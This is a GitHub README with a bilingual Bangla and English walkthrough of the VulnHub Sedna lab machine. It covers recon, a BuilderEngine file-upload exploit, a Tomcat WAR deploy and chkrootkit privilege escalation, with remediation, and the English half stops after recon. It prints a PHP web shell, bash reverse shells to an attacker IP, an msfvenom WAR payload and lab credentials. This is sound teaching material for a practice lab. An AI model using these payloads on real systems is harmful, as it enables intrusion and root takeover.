<div id="top"></div>

<!-- PROJECT SHIELDS -->
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]
[![LinkedIn][linkedin-shield]][linkedin-url]

<!-- PROJECT LOGO & HEADER -->
<br />
<div align="center">
  <a href="https://github.com/your_username/your_repo_name">
    
  </a>

  <h3 align="center">Sedna (VulnHub) — Boot2Root & Server Infrastructure Pentesting</h3>

  <p align="center">
    একটি পূর্ণাঙ্গ পেনিট্রেশন টেস্টিং ওয়াকথ্রু এবং ল্যাব গাইড (বাংলা ও ইংরেজি) <br/>
    A complete Server & Infrastructure Penetration Testing Walkthrough (Bangla & English)
    <br />
    <br />
    <a href="#-বাংলা-ওয়াকথ্রু-bangla-walkthrough"><strong>🇧🇩 বাংলা গাইড পড়ুন »</strong></a>
    ·
    <a href="#-english-walkthrough"><strong>🇬🇧 Read English Guide »</strong></a>
    <br />
    <br />
    <a href="https://www.vulnhub.com/entry/hackfest2016-sedna,181/">Download Lab VM</a>
    ·
    <a href="https://github.com/your_username/your_repo_name/issues">Report Issue</a>
  </p>
</div>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents / সূচিপত্র</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project (প্রজেক্ট সম্পর্কে)</a>
      <ul>
        <li><a href="#tools--arsenal-used">Tools & Arsenal Used</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Lab Setup (ল্যাব সেটআপ)</a>
    </li>
    <li>
      <a href="#-বাংলা-ওয়াকথ্রু-bangla-walkthrough">🇧🇩 বাংলা ওয়াকথ্রু (Bangla Walkthrough)</a>
      <ul>
        <li><a href="#১-প্রাথমিক-ধারণা-ও-টুলস-key-terms">প্রাথমিক ধারণা ও টুলস (Key Terms)</a></li>
        <li><a href="#২-প্রাথমিক-অনুসন্ধান-reconnaissance">প্রাথমিক অনুসন্ধান (Reconnaissance)</a></li>
        <li><a href="#৩-দুর্বলতা-চিহ্নিতকরণ-vulnerability-assessment">দুর্বলতা চিহ্নিতকরণ (Vulnerability Assessment)</a></li>
        <li><a href="#৪-ইনিশিয়াল-অ্যাক্সেস-initial-access">ইনিশিয়াল অ্যাক্সেস (Initial Access)</a></li>
        <li><a href="#৫-প্রিভিলেজ-এস্কেলেশন-privilege-escalation">প্রিভিলেজ এস্কেলেশন (Privilege Escalation)</a></li>
        <li><a href="#৬-বিকল্প-অ্যাটাক-ভেক্টর-tomcat-war-deploy">বিকল্প অ্যাটাক ভেক্টর (Tomcat WAR Deploy)</a></li>
        <li><a href="#৭-এআই-অ্যাসিস্টেড-অ্যাপ্রোচ-ai-integration">এআই-অ্যাসিস্টেড অ্যাপ্রোচ (AI Integration)</a></li>
        <li><a href="#৮-প্রতিকার-remediation">প্রতিকার (Remediation)</a></li>
      </ul>
    </li>
    <li>
      <a href="#-english-walkthrough">🇬🇧 English Walkthrough</a>
      <ul>
        <li><a href="#1-executive-summary">Executive Summary</a></li>
        <li><a href="#2-initial-reconnaissance">Initial Reconnaissance</a></li>
        <li><a href="#3-vulnerability-identification">Vulnerability Identification</a></li>
        <li><a href="#4-exploitation--initial-access">Exploitation & Initial Access</a></li>
        <li><a href="#5-privilege-escalation">Privilege Escalation</a></li>
        <li><a href="#6-alternative-path-apache-tomcat-rce">Alternative Path: Apache Tomcat RCE</a></li>
        <li><a href="#7-impact--remediation">Impact & Remediation</a></li>
      </ul>
    </li>
    <li><a href="#roadmap">Attack Flow Summary</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>

---

<!-- ABOUT THE PROJECT -->
## About The Project

[![Sedna Banner][product-screenshot]](images/sedna_banner.png)

**🇧🇩 বাংলায়:**  
এই রিপোজিটরিটি **Sedna (VulnHub)** মেশিনের জন্য একটি পূর্ণাঙ্গ Boot2Root পেনিট্রেশন টেস্টিং ওয়াকথ্রু এবং স্টাডি গাইড। এখানে ওয়েব সার্ভার এবং ইনফ্রাস্ট্রাকচার মিসকনফিগারেশন (যেমন: **BuilderEngine Arbitrary File Upload**, **Apache Tomcat WAR Deployment**, এবং **Jenkins Script Console**) কীভাবে এক্সপ্লয়েট করে রিমোট কোড এক্সিকিউশন (RCE) পাওয়া যায় তা দেখানো হয়েছে। পরবর্তীতে `chkrootkit 0.49` (CVE-2014-0476) এর দুর্বলতা কাজে লাগিয়ে কীভাবে লোকাল প্রিভিলেজ এস্কেলেশনের (Privilege Escalation) মাধ্যমে **Root** অ্যাক্সেস নেওয়া হয়, তার প্রতিটি ধাপ কমান্ড ও স্ক্রিনশটসহ আলোচনা করা হয়েছে।

**🇬🇧 In English:**  
This repository contains a comprehensive, study-friendly Boot2Root walkthrough for the **Sedna (VulnHub)** machine. It covers server and infrastructure penetration testing concepts, demonstrating how to chain unauthenticated web file uploads (**BuilderEngine 3.5.0**), middleware misconfigurations (**Apache Tomcat 7**), and vulnerable root cronjobs (**chkrootkit 0.49 - CVE-2014-0476**) to achieve full system compromise.

<p align="right">(<a href="#top">back to top</a>)</p>

### Tools & Arsenal Used

This assessment and walkthrough utilizes the following penetration testing tools and environments:

* [![Kali Linux][Kali-shield]][Kali-url]
* [![Metasploit][Metasploit-shield]][Metasploit-url]
* [![Apache Tomcat][Tomcat-shield]][Tomcat-url]
* [![PHP][PHP-shield]][PHP-url]
* [![Bash][Bash-shield]][Bash-url]
* [![Nuclei][Nuclei-shield]][Nuclei-url]

<p align="right">(<a href="#top">back to top</a>)</p>

---

<!-- GETTING STARTED -->
## Getting Started

নিজের লোকাল এনভায়রনমেন্টে এই ল্যাবটি প্র্যাকটিস করার জন্য নিচের ধাপগুলো অনুসরণ করুন (Follow these steps to set up the lab locally):

### Prerequisites (প্রয়োজনীয় সফটওয়্যার)
* **Hypervisor:** VMware Workstation / VirtualBox
* **Attacker Machine:** Kali Linux (or WSL2 with Kali tools)
* **Target Machine:** [Hackfest 2016: Sedna OVA](https://www.vulnhub.com/entry/hackfest2016-sedna,181/)

### Lab Configuration
1. Download the Sedna `.ova` file and import it into VMware or VirtualBox.
2. Set both your Kali machine and the Sedna VM network adapters to **NAT** or **Host-Only** so they are on the same subnet.
3. Clone this repository to access custom payloads and notes:
   ```sh
   git clone [https://github.com/your_username/your_repo_name.git](https://github.com/your_username/your_repo_name.git)
   ```

<p align="right">(<a href="#top">back to top</a>)</p>

---

<!-- BANGLA WALKTHROUGH -->
# 🇧🇩 বাংলা ওয়াকথ্রু (Bangla Walkthrough)

## ১. প্রাথমিক ধারণা ও টুলস (Key Terms)
ল্যাব শুরু করার আগে কিছু গুরুত্বপূর্ণ টার্ম জেনে নেওয়া যাক:
* **Shell & Reverse Shell:** টার্গেট সার্ভারের ওপর কমান্ড চালানোর ইন্টারফেস হলো Shell। সার্ভার যখন ফায়ারওয়াল বাইপাস করে নিজে থেকে অ্যাটাকারের মেশিনে (`nc -lvnp 4444`) কানেক্ট করে শেল দেয়, তাকে **Reverse Shell** বলে।
* **RCE (Remote Code Execution):** দূর থেকে টার্গেট মেশিনে নিজের ইচ্ছেমতো কোড বা কমান্ড এক্সিকিউট করানোর ক্ষমতা।
* **SearchSploit:** Exploit-DB এর অফলাইন ভার্সন, যা কালি লিনাক্স টার্মিনাল থেকে সরাসরি এক্সপ্লয়েট খুঁজতে ব্যবহৃত হয়।
* **WAR File (.war):** Web Application Archive—জাভা ওয়েব অ্যাপ্লিকেশনের প্যাকেজ ফরম্যাট। Tomcat সার্ভারে ক্ষতিকর `.war` ফাইল আপলোড করে সহজেই রিভার্স শেল নেওয়া যায়।
* **Privilege Escalation (PrivEsc):** সাধারণ লো-প্রিভিলেজ ইউজার (`www-data` বা `tomcat`) থেকে সর্বোচ্চ ক্ষমতা (`root`) অর্জনের প্রক্রিয়া।

---

## ২. প্রাথমিক অনুসন্ধান (Reconnaissance)

### ধাপ ১.১ — টার্গেট আইপি খুঁজে বের করা (Target Discovery)
নেটওয়ার্কে কোন কোন মেশিন চালু আছে তা দেখতে Nmap পিং স্ক্যান চালাই:
```bash
nmap -sn 192.168.149.0/24
```


আমরা আমাদের টার্গেট মেশিনের আইপি পেয়ে গেছি (`192.168.149.132`)। কাজের সুবিধার জন্য আইপিটিকে একটি ভেরিয়েবলে সেট করে নিই:
```bash
export TARGET=192.168.149.132
```

### ধাপ ১.২ — পোর্ট ও সার্ভিস স্ক্যান (Port & Service Scan)
সবগুলো পোর্ট এবং সার্ভিস ভার্সন চেক করার জন্য নিচের কমান্ডটি রান করি:
```bash
nmap -p- $TARGET
nmap -sC -sV -oN sedna_scan.txt $TARGET
```


**স্ক্যানের ফলাফল:**
* **Port 22/tcp:** OpenSSH 6.6.1p1
* **Port 80/tcp:** Apache httpd 2.4.7
* **Port 8080/tcp:** Apache Tomcat (http-proxy)

### ধাপ ১.৩ — ওয়েব ডিরেক্টরি এনুমারেশন (Web Enumeration - Port 80)
পোর্ট 80-তে থাকা ওয়েবসাইটের গোপন ফাইল ও ডিরেক্টরি খুঁজতে `gobuster` ব্যবহার করি (`-x` ফ্ল্যাগ দিয়ে `.php`, `.txt`, `.html` এক্সটেনশন যুক্ত করা হয়েছে):
```bash
gobuster dir \
  -u http://$TARGET \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php,txt,html \
  -o gobuster_80.txt
```


এখানে `/files`, `/system`, `/modules` এর পাশাপাশি অত্যন্ত গুরুত্বপূর্ণ **`/license.txt`** (Status: 200) ফাইলটি পাওয়া যায়।

### ধাপ ১.৪ — CMS ফিঙ্গারপ্রিন্টিং
`license.txt` ফাইলটি চেক করে দেখা যাক:
```bash
curl http://$TARGET/license.txt
```


এখান থেকে নিশ্চিত হওয়া গেল সাইটটি **BuilderEngine Version 3.5.0** ব্যবহার করছে।

---

## ৩. দুর্বলতা চিহ্নিতকরণ (Vulnerability Assessment)

SearchSploit দিয়ে BuilderEngine 3.5.0-এর পরিচিত কোনো এক্সপ্লয়েট আছে কিনা খুঁজি:
```bash
searchsploit builderengine
```


আমরা **`BuilderEngine 3.5.0 - Arbitrary File Upload (php/webapps/40390.php)`** এক্সপ্লয়েটটি পেয়ে যাই। এক্সপ্লয়েট কোডটি (`searchsploit -x php/webapps/40390.php`) বিশ্লেষণ করে দেখা যায়:
* `/themes/dashboard/assets/plugins/jquery-file-upload/server/php/` এন্ডপয়েন্টে কোনো অথেনটিকেশন ছাড়াই যেকোনো ফাইল আপলোড করা যায়।
* আপলোড করা ফাইলটি `/files/` ডিরেক্টরিতে জমা হয় এবং সেখান থেকে এক্সিকিউট করা সম্ভব।



---

## ৪. ইনিশিয়াল অ্যাক্সেস (Initial Access)

### ধাপ ৪.১ — PHP Web Shell তৈরি ও আপলোড
একটি সিম্পল PHP ওয়েব শেল (`shell.php`) তৈরি করি:
```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

এবার `curl` দিয়ে সরাসরি ভিক্টিম সার্ভারের দুর্বল এন্ডপয়েন্টে ফাইলটি আপলোড করে দিই (অথবা এক্সপ্লয়েটের HTML ফর্ম ব্যবহার করেও আপলোড করা যায়):
```bash
curl -X POST \
  "http://$TARGET/themes/dashboard/assets/plugins/jquery-file-upload/server/php/" \
  -F "files[]=@shell.php"
```


### ধাপ ৪.২ — RCE ভেরিফিকেশন এবং Reverse Shell
ওয়েব শেলটি কাজ করছে কিনা তা চেক করি:
```bash
curl "http://$TARGET/files/shell.php?cmd=id"
```
Output: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`



এখন পুরোপুরি ইন্টারঅ্যাক্টিভ কন্ট্রোল নেওয়ার জন্য **Terminal 1**-এ নেটক্যাট লিসেনার চালু করি:
```bash
nc -lvnp 4444
```


এবং **Terminal 2** থেকে রিভার্স শেল পেলোড ট্রিগার করি (এখানে নিজের কালি মেশিনের আইপি দিতে হবে):
```bash
curl -G "http://$TARGET/files/shell.php" \
  --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/172.30.211.201/4444 0>&1'"
```


### ধাপ ৪.৩ — শেল স্ট্যাবিলাইজেশন ও User Flag
পাওয়া শেলটিকে স্ট্যাবল (Interactive TTY) করি এবং প্রথম ফ্ল্যাগটি সংগ্রহ করি:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Press Ctrl+Z
stty raw -echo; fg
```
**🚩 User Flag:**
```bash
cat /var/www/flag.txt
```
Output: `bfbb7e6e6e88d9ae66848b9aeac6b289`



---

## ৫. প্রিভিলেজ এস্কেলেশন (Privilege Escalation)

সার্ভারের ভেতরে এনুমারেশন করে দেখা যায় এটি `Ubuntu 14.04 (Kernel 3.13.0-32-generic)`। `/etc` এবং সিস্টেম বাইনারিগুলো চেক করার সময় আমরা **`chkrootkit`** খুঁজে পাই:
```bash
find / -name "chkrootkit" 2>/dev/null
chkrootkit -V
```
এখানে **`chkrootkit version 0.49`** ইনস্টল করা আছে। SearchSploit-এ সার্চ করে দেখা যায় এটি **CVE-2014-0476** লোকাল প্রিভিলেজ এস্কেলেশনের জন্য ঝুঁকিপূর্ণ:
```bash
searchsploit chkrootkit
```


**কেন এই দুর্বলতা কাজ করে?**  
`chkrootkit` রুট ইউজার হিসেবে ব্যাকগ্রাউন্ডে ক্রোনজবের (Cronjob) মাধ্যমে নিয়মিত রান হয়। কোডে কোটেশন মার্কের ভুলের কারণে এটি `/tmp/update` নামের কোনো ফাইল পেলে সেটিকে `root` পারমিশনে এক্সিকিউট করে ফেলে।

### এক্সপ্লয়েটেশন:
নতুন একটি টার্মিনালে পোর্ট `9999`-এ লিসেনার চালু করি:
```bash
nc -lvnp 9999
```

টার্গেট মেশিনে `/tmp/update` ফাইল তৈরি করে সেখানে রিভার্স শেল পেলোড বসিয়ে এক্সিকিউটেবল পারমিশন দিই:
```bash
echo '#!/bin/bash' > /tmp/update
echo 'bash -i >& /dev/tcp/172.30.211.201/9999 0>&1' >> /tmp/update
chmod +x /tmp/update
```


মাত্র ১ মিনিট অপেক্ষা করলেই ক্রোনজবটি রান করবে এবং আমাদের লিসেনারে **Root Shell** চলে আসবে!

**🏴 Root Flag:**
```bash
id
# uid=0(root) gid=0(root) groups=0(root)
cat /root/flag.txt
```
Output: `a10828bee17db751de4b936614558305`



---

## ৬. বিকল্প অ্যাটাক ভেক্টর (Tomcat WAR Deploy)
পোর্ট 8080-তে থাকা Apache Tomcat দিয়েও সার্ভারে শেল নেওয়া যায়:
1. কনফিগারেশন ফাইল থেকে ক্রেডেনশিয়াল সংগ্রহ:
   ```bash
   cat /etc/tomcat7/tomcat-users.xml
   ```
   এখানে ইউজারনেম `tomcat` এবং পাসওয়ার্ড `submitthisforpoints` পাওয়া যায়।
   
2. `msfvenom` দিয়ে ক্ষতিকর `.war` পেলোড তৈরি:
   ```bash
   msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.30.211.201 LPORT=5555 -f war -o tomcat-war-shell.war
   ```
3. `http://$TARGET:8080/manager/html`-এ লগইন করে `.war` ফাইলটি ডিপ্লয় করা এবং `nc -lvnp 5555` চালু রেখে ব্রাউজারে `http://$TARGET:8080/tomcat-war-shell/` ভিজিট করলেই `tomcat7` ইউজার হিসেবে শেল চলে আসবে।
   

---

## ৭. Tools Based অ্যাপ্রোচ
ম্যানুয়ালি এনুমারেশন করার পাশাপাশি অটোমেটেড টেমপ্লেট স্ক্যানার **Nuclei** ব্যবহার করে খুব দ্রুত মিসকনফিগারেশনগুলো বের করা সম্ভব:
```bash
nuclei -u http://$TARGET -tags misconfig,exposure
nuclei -u http://$TARGET -t http/
```


---

## ৮. প্রতিকার (Remediation)
| দুর্বলতা (Vulnerability) | প্রতিকার (Fix) |
| :--- | :--- |
| **BuilderEngine File Upload** | ফাইল আপলোডে অথেনটিকেশন যুক্ত করা এবং `/files/` ফোল্ডারে PHP এক্সিকিউশন বন্ধ করা। |
| **Tomcat Default/Weak Password** | শক্তিশালী পাসওয়ার্ড ব্যবহার করা এবং Tomcat Manager অ্যাপের পাবলিক অ্যাক্সেস বন্ধ রাখা। |
| **chkrootkit 0.49 (CVE-2014-0476)** | সফটওয়্যারটি আপডেট করা এবং `/tmp` ডিরেক্টরিকে `noexec` ফ্ল্যাগ দিয়ে মাউন্ট করা। |
| **Ubuntu 14.04 (EOL Kernel)** | অপারেটিং সিস্টেম ও কার্নেল সর্বশেষ সাপোর্টেড ভার্সনে আপগ্রেড করা। |

<p align="right">(<a href="#top">back to top</a>)</p>

---
---

<!-- ENGLISH WALKTHROUGH -->
# 🇬🇧 English Walkthrough

## 1. Executive Summary
This walkthrough documents the penetration testing process for the **Sedna** machine from VulnHub. The attack chain begins by identifying an outdated **BuilderEngine 3.5.0** CMS on port 80 and an **Apache Tomcat 7** instance on port 8080. By exploiting an unauthenticated arbitrary file upload vulnerability in BuilderEngine's jQuery upload plugin, we gain initial Remote Code Execution (RCE) as `www-data`. Finally, we escalate privileges to `root` by exploiting a vulnerable cron-scheduled instance of **chkrootkit 0.49 (CVE-2014-0476)**.

## 2. Initial Reconnaissance
We start by discovering the target on the local subnet and running a comprehensive port and service scan using Nmap:
```bash
export TARGET=192.168.149.132
nmap -p- $TARGET
nmap -sC -sV -oN sedna_scan.txt $TARGET
```
**Key Open Ports:**
* `22/tcp` - OpenSSH 6.6.1p1
* `80/tcp` - Apache httpd 2.4.7
* `8080/tcp` - Apache Tomcat 7.x

Next, we enumerate web directories and files on port 80 using Gobuster:
```bash
gobuster dir -u http://$TARGET -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -o gobuster_80.txt
```
